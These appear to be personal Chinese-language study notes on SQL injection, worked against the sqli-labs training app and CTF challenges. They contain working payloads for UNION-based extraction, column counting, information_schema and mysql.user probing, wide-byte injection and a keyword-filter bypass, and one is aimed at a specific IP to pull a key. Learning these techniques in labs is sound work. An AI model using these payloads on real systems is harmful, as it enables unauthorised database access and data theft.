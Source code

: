 url/?id=1

正常登陆

url/?id=1'

报错   闭合字符是 '

http://127.0.0.1/sqlilabs/Less-1/?id=1' --+    正常

http://127.0.0.1/sqlilabs/Less-1/?id=1' and 1=2--+   不显示  说明 1=2把前面的吃掉了。 1=2 后面可以加命令


url/?id=1' and 1=2 order by 4   错误

url/?id=1' and 1=2 order by 3 正常  说明有3列

union select 1,2,3  看显示出第几列  显示的列是可以搞事的。放payload

url/?id=1'%23    # 注释 ' 不报错了

url/?id=1' order by 5 --+   报错

url/?id=1' order by 3 --+   正常

url/?id=1' union select 1,2,3,4 --+

报错，说明目标不是4列

url/?id=1' union select 1,2,3 --+

正常显示

发现把 1 2 3 替换为字符串或者其他数字也照样正常显示 如'sadfdg323vd'  23534 等

http://127.0.0.1/sqlilabs/Less-1/?id=1' and exists(select * from admin)--+

报错
Table 'security.admin' doesn't exist

exists()函数检查子查询是否会返回数据。是 返回true 不是 返回false

http://127.0.0.1/sqlilabs/Less-1/?id=1' and exists(select * from mysql.user)--+

正常返回 说明 mysql.user 存在
否则会报错

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select * from mysql.user)--+

报错0.0

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select id from mysql.user)--+

报错了，子查询返回多于一行

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select id from mysql.user limit 1,1)--+

似乎OK了0.0

SELECT * FROM table LIMIT 5,10; 检索 6-15行

url/admin.php?ip=1 正常

url/admin.php?ip=1' 


database()  显示当前数据库

user()  显示登录名和登陆地址

version()  查看数据库版本

union select table_name from information_schema.tables where table_schema=xxxx(库名)

select table_name from information_schema.tables where table_schema=security

?id=1%df%27  宽字节注入

/?id=1%df%27%20union%20select%201%EF%BC%8C2%23

/?id=1%df%27%20union%20select%201,2,3%20--+

select id from sql5.key

http://103.238.227.13:10083/?id=1%df%27%20union%20select%20(select%20string%20from%20sql5.key%20limit%200,1),6%20--+



//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
			


?id=-1 uni<>on sel<>ect 4,5#

4,5正常显示
?id=-1 uni<>on sel<>ect database(),5#
出库名 sql3

正则过滤.   php全局变量


brupsuite 抓包重放  看回显

function checkSubmit(){var a=document.getElementById("password");if("undefined"!=typeof a){if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)return!0;alert("Error");a.focus();return!1}}document.getElementById("levelQuest").onsubmit=checkSubmit;
